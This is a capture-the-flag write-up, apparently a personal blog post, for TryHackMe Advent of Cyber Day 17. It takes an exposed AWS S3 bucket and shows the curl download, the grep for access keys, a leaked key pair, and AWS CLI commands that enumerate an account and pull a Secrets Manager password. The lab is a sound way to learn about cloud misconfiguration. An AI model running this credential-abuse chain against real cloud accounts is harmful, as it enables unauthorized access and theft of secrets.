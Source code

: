 ```yaml
---
title:  "TryHackMe: Advent of Cyber - Day 17 - Elf Leaks"
date:   2021-12-19 09:30:00 +1000
excerpt: Learning about AWS Exploits.
---
```


This is a write up for the Day 17 - Elf Leaks challenge in the [**Advent of Cyber**](https://tryhackme.com/room/adventofcyber3) room on [TryHackMe](https://tryhackme.com). Some tasks may have been omitted as they do not require an answer.

***

### What is the name of the S3 Bucket used to host the HR Website announcement?

View the source of the image to see the S3 bucket.

<img src="{{ site.baseurl }}/assets/images/2021-12-19-advent-of-cyber-day-17/d17_01.jpg">

> Answer: **images.bestfestivalcompany.com**

### What is the message left in the flag.txt object from that bucket?

Navigating to https://s3.amazonaws.com/images.bestfestivalcompany.com shows all the files in the bucket.

Opening https://s3.amazonaws.com/images.bestfestivalcompany.com/flag.txt shows the required flag.

> Answer: **It's easy to get your elves data when you leave it so easy to find!**

### What other file in that bucket looks interesting to you?

Going back to https://s3.amazonaws.com/images.bestfestivalcompany.com shows an interesting zip file.

<img src="{{ site.baseurl }}/assets/images/2021-12-19-advent-of-cyber-day-17/d17_02.jpg">

> Answer: **wp-backup.zip**

### What is the AWS Access Key ID in that file?

Run the following commands.

```
curl https://s3.amazonaws.com/images.bestfestivalcompany.com/wp-backup.zip -o wp-backup.zip
unzip wp-backup.zip
grep -r 'AKIA'
```

<img src="{{ site.baseurl }}/assets/images/2021-12-19-advent-of-cyber-day-17/d17_03.jpg">

<img src="{{ site.baseurl }}/assets/images/2021-12-19-advent-of-cyber-day-17/d17_04.jpg">

> Answer: **AKIAQI52OJVCPZXFYAOI**

### What is the AWS Account ID that access-key works for?

Run the following command.

```
aws configure --profile aoc
Enter AKIAQI52OJVCPZXFYAOI
Enter Y+2fQBoJ+X9N0GzT4dF5kWE0ZX03n/KcYxkS1Qmc
Enter us-east-1

aws sts get-access-key-info --access-key-id AKIAQI52OJVCPZXFYAOI --profile aoc
```

<img src="{{ site.baseurl }}/assets/images/2021-12-19-advent-of-cyber-day-17/d17_05.jpg">

> Answer: **019181489476**

### What is the Username for that access-key?

Enter the following command.

```
aws sts get-caller-identity --profile aoc
```

<img src="{{ site.baseurl }}/assets/images/2021-12-19-advent-of-cyber-day-17/d17_06.jpg">

> Answer: **ElfMcHR@bfc.com**

### There is an EC2 Instance in this account. Under the TAGs, what is the Name of the instance?

Run the following command.

```
aws ec2 describe-instances --output text --profile aoc
```

<img src="{{ site.baseurl }}/assets/images/2021-12-19-advent-of-cyber-day-17/d17_07.jpg">

> Answer: **HR-Portal**

### What is the database password stored in Secrets Manager?

Run `aws secretsmanager list-secrets --profile aoc`

<img src="{{ site.baseurl }}/assets/images/2021-12-19-advent-of-cyber-day-17/d17_08.jpg">

Run `aws secretsmanager get-secret-value --secret-id HR-Password --profile aoc --region eu-north-1`

<img src="{{ site.baseurl }}/assets/images/2021-12-19-advent-of-cyber-day-17/d17_09.jpg">

> Answer: **Winter2021!**

### Recap

In this task we learnt:
 * How to exploit AWS implementations
 